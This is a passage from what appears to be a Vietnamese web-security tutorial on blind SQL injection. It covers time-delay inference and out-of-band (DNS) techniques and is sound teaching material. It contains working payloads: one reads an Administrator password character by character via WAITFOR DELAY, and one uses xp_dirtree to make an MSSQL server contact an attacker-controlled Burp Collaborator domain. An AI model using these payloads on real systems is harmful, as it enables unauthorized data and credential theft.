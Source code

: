Câu lệnh đầu tiên không kích hoạt độ trễ, vì điều kiện 1=2 là sai.
Câu lệnh thứ hai kích hoạt độ trễ 10 giây, vì điều kiện 1=1 là đúng.
Sử dụng kỹ thuật này, chúng ta có thể truy xuất dữ liệu bằng cách kiểm tra từng ký tự một:

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

> ## Lưu ý
> Có nhiều cách để kích hoạt độ trễ thời gian trong các truy vấn SQL, và các kỹ thuật khác nhau áp dụng cho các loại cơ sở dữ liệu khác nhau. Để biết thêm chi tiết, hãy xem bảng gian lận SQL injection.

# Khai thác lỗi SQL injection mù bằng các kỹ thuật ngoài băng tần (OAST)

Một ứng dụng có thể thực hiện cùng một truy vấn SQL như ví dụ trước nhưng thực hiện nó một cách không đồng bộ. Ứng dụng tiếp tục xử lý yêu cầu của người dùng trong luồng ban đầu và sử dụng một luồng khác để thực hiện truy vấn SQL bằng cookie theo dõi. Truy vấn này vẫn dễ bị tấn công SQL injection, nhưng không có kỹ thuật nào được mô tả cho đến nay sẽ hiệu quả. Phản hồi của ứng dụng không phụ thuộc vào việc truy vấn trả lại dữ liệu, xảy ra lỗi cơ sở dữ liệu hay thời gian thực hiện truy vấn.

Trong tình huống này, thường có thể khai thác lỗ hổng SQL injection mù bằng cách kích hoạt các tương tác mạng ngoài băng tần tới một hệ thống mà bạn kiểm soát. Các tương tác này có thể được kích hoạt dựa trên một điều kiện được tiêm vào để suy luận thông tin từng mảnh một. Hữu ích hơn, dữ liệu có thể được trích xuất trực tiếp trong tương tác mạng.

Một loạt các giao thức mạng có thể được sử dụng cho mục đích này, nhưng thường thì hiệu quả nhất là DNS (dịch vụ tên miền). Nhiều mạng sản xuất cho phép truy vấn DNS tự do, vì chúng cần thiết cho hoạt động bình thường của các hệ thống sản xuất.

Công cụ dễ sử dụng và đáng tin cậy nhất để sử dụng các kỹ thuật ngoài băng tần là Burp Collaborator. Đây là một máy chủ cung cấp các triển khai tùy chỉnh của nhiều dịch vụ mạng khác nhau, bao gồm DNS. Nó cho phép bạn phát hiện khi nào các tương tác mạng xảy ra do việc gửi các payloads cá nhân đến một ứng dụng có lỗ hổng. Burp Suite Professional bao gồm một máy khách tích hợp được cấu hình để làm việc với Burp Collaborator ngay từ đầu. Để biết thêm thông tin, hãy xem tài liệu hướng dẫn của Burp Collaborator.

Các kỹ thuật để kích hoạt một truy vấn DNS cụ thể đối với loại cơ sở dữ liệu đang sử dụng. Ví dụ, đầu vào sau đây trên Microsoft SQL Server có thể được sử dụng để gây ra một truy vấn DNS trên một miền được chỉ định:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Điều này khiến cơ sở dữ liệu thực hiện một truy vấn đối với miền sau:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

Bạn có thể sử dụng Burp Collaborator để tạo một miền con duy nhất và kiểm tra máy chủ Collaborator để xác nhận khi có bất kỳ truy vấn DNS nào xảy ra.

# SQL injection trong các ngữ cảnh khác nhau
